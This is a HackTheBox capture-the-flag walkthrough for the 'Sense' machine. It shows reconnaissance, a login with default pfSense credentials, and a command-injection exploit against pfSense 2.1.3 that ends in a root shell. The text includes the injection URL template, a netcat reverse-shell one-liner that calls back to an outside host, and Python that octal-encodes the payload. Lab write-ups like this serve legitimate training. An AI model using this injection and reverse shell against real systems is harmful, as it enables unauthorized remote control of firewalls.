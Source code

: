# Sense [HTB](https://app.hackthebox.com/machines/111)
![sense-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/sense-01.png)

## Recon 

After adding the target to my `/etc/hosts` file, I fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- sense.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/nmap-res-02.png)

We have the following:

+ A lighthttpd V1.4.35 HTTP server on ports 80 & 443. 

The target runs a single HTTP service with a lighthttpd server. Port 80 immediately redirects us to an SSL connection, let's have a look. 


## HTTP Port 443

I open up my browser and type `https://sense.htb`, my browser warns me about the validity of the certificate of this site, I accept the risks and ask to load the page anyway:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/site-03.png)

The site references [DNS rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding). These attacks usually involve a victim user clicking on a link, or a hidden HTML tag that leads to a domain controlled by the attacker's DNS server. 

The DNS rebinding attack leverages  the control the attacker has over the DNS to bypass the [Same-Origin Policy](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh3dqTu8qBAxVsh_0HHTVpDkAQFnoECBUQAw&url=https%3A%2F%2Fweb.dev%2Fsame-origin-policy%2F&usg=AOvVaw3oH90bDU0AARo5NNkbh5nZ&opi=89978449) imposed by modern web browsers. This is possible because the browser determines the origin of the request based on the `Hostname` parameter and general URI scheme, but because hostnames can point to any arbitrary IP, this can be leveraged to bypass the `Same-Origin Policy` to make malicious requests to other resources on the victim user's behalf.

Some examples of attack vectors can be internal network components in an enterprise enviorement, internal resources on the server itself, other sites altogether, like banking sites, etc. Here is the general scheme of the attack:

![dns-rebind-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/dns-rebind-04.png)

Palo Alto has a nice [artical](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiVt9rOvsqBAxUkhv0HHUP2AQ4QFnoECBAQAQ&url=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdns-rebinding%2F&usg=AOvVaw1ZW27d0rhTxtJWKsFNLpUl&opi=89978449) about DNS rebinding attacks if you want to read more about it.


To avoid potential DNS rebinding attacks, the server replied with the above error. Rejecting requests with hostnames would eliminate any potential for DNS rebinding attacks, though it seems rather extreme. 

I dont see much potential in pulling a DNS rebinding attack againts this target. Let's open the web server through an IP address instead:

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/login-05.png)

This is an admin login portal for the [pfSense](https://www.pfsense.org/) open source firewall. At first I tried default credentials, when that failed I tried to brute force the login page. I wrote a simple script in Python to bypass the anti-csrf and session cookies which did work, but I've noticed that I get blocked after about 15 failed attempts. 

So instead, I decided to run a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u https://10.129.103.157/FUZZ -e .php,.cgi,.js,.html,.txt,.json,.xml
```

This yields quite a lot of results, but the most interesting one to me is this:

![users-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/users-.png)

If we open this file we can see the following:

![file-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/file-07.png)

This gives us a username. The password is set to be "company default", if we search online for default `pfSense` credentials we will find that the default password for most if not all appliances is `pfsesne`. 

After a few failed login attempts I found that the username is misspelled, and the credentials that do work are `rohit : pfsense`. This gets us inside the pfsense admin panel:

![admin-panel-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/admin-panel-08.png)

We can see that the version is 2.1.3 for a 64-bit FreeBSD machine. Let's search for exploits with:

```bash
searchsploit pfsense 2.1.3
```

![searchsploit-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/searchsploit-09.png)

Command Injection sounds good. After a bit of searching online I found that there is also a metasploit version available, so I decided to review the source code to try and pull this off manually:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/source-10.png)

Two things are going on here. First the payload is encoded to octal values. Next, the actual exploitation is executed via a `GET` request to the following URL:

```bash
/status_rrd_graph_img.php?database=-throughput.rrd&graph=file|printf%20%27<PAYLOAD>%27|sh|echo
```

We need to request this page after we have logged in to the pfsense admin panel and we have an active session, which we do have. So all we need is a reverse shell payload for a BSD platform, encode it to octal value, and send the GET request. 

The payload I got [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Next, we need to encode it, we can do this with the following python code:

```python
command = """
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f
"""

payload = ''
for char in command:
    payload += ('\\' + oct(ord(char)).lstrip('0o'))

print(payload)
``` 

Finally, we need to URL encode the `|` characters found in the URL to `%7c`. All in all my final request to the server looks like this:

![req-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/req-11.png)

This gets me a shell as root:

![root-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/root-12.png)

